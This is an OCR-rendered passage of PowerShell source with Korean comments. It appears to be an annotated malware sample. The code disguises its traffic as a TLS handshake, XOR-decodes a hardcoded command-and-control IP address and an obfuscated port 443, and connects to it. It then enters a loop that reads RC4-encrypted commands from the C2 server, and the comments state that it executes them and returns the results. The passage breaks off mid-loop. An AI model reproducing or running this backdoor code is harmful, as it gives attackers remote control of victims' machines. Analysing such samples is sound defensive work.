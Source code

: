 ```powershell
    [Array]::Reverse($LengthBytes4)

    # 또 다른 고정된 바이트 배열
    $AnotherFixedBytes = @(0x03, 0x03, 0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x0e, 0x0f, 0x10, 0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17, 0x18, 0x19, 0x1a, 0x1b, 0x1c, 0x1d, 0x1e, 0x1f, 0x20, 0xe0, 0xe1, 0xe2, 0xe3, 0xe4, 0xe5, 0xe6, 0xe7, 0xe8, 0xe9, 0xea, 0xeb, 0xec, 0xed, 0xee, 0xef, 0xf0, 0xf1, 0xf2, 0xf3, 0xf4, 0xf5, 0xf6, 0xf7, 0xf8, 0xf9, 0xfa, 0xfb, 0xfc, 0xfd, 0xfe, 0xff, 0x00, 0x08, 0x13, 0x02, 0x13, 0x03, 0x13, 0x01, 0x00, 0xff, 0x01, 0x00)

    $FinalCombinedBytes = $AnotherFixedBytes + $LengthBytes4 + $CombinedBytes
    $FinalLengthBytes = [byte[]] ([BitConverter]::GetBytes($FinalCombinedBytes.Length))
    [Array]::Reverse($FinalLengthBytes)
    $ProtocolMessagePart1 = @(0x01) + $FinalLengthBytes[1..3] + $FinalCombinedBytes

    $ProtocolMessageLengthBytes = [byte[]] ([BitConverter]::GetBytes([UInt16]$ProtocolMessagePart1.Length))
    [Array]::Reverse($ProtocolMessageLengthBytes)

    # 최종 프로토콜 메시지 (0x16, 0x03, 0x01 헤더 + 길이 + 메시지 데이터)
    $FinalProtocolMessage = @(0x16, 0x03, 0x01) + $ProtocolMessageLengthBytes + $ProtocolMessagePart1
    return , $FinalProtocolMessage
}

# 메인 실행 로직
$TCPClient = New-Object System.Net.Sockets.TcpClient

# 호스트와 포트 연결
# 호스트: "23.254.204.227" (XOR 복호화)
# 포트: (50 * 9) - (11 * 2)) + 2^3 + sqrt(49) = 450 - 22 + 8 + 7 = 443 (HTTPS 기본 포트)
$TCPClient.Connect((XORDecryptBytes -EncryptedBytes @(5, 7, 25, 2, 25, 3, 15, 25, 5, 7, 7) -XORKey 55), ((50 * 9) - (11 * 2)) + [math]::Pow(2, 3) + [math]::Sqrt(49))

$NetworkStream = $TCPClient.GetStream()

# 초기 메시지 생성 및 전송
$InitialMessage = GenerateInitialMessage
$NetworkStream.Write($InitialMessage, 0, $InitialMessage.Length)

# 초기 응답 읽기 (16384 바이트)
$ResponseBuffer = New-Object byte[] 16384
$NetworkStream.Read($ResponseBuffer, 0, $ResponseBuffer.Length) | Out-Null # 읽은 데이터는 사용되지 않음

# 무한 루프: C2 서버로부터 명령을 받고 실행 후 결과를 다시 전송
while ($true) {
    $ResponseBuffer = New-Object byte[] 16384 # 버퍼 초기화
    try {
        # 네트워크 스트림에서 데이터 읽기
        $BytesRead = $NetworkStream.Read($ResponseBuffer, 0, 16384)
    }
    catch {
        # 읽기 실패 시 루프 종료
        break
    }

    # 수신된 바이트에서 실제 데이터 부분 추출 (5바이트 오프셋부터 시작)
    $EncryptedReceivedCommand = $ResponseBuffer[5..($BytesRead - 1)]

    # RC4 복호화 후 UTF8 문자열로 변환
    $DecryptedCommand = [System.Text.Encoding]::UTF8.GetString((RC4 -Key $RC4Key -Data $EncryptedReceivedCommand))

```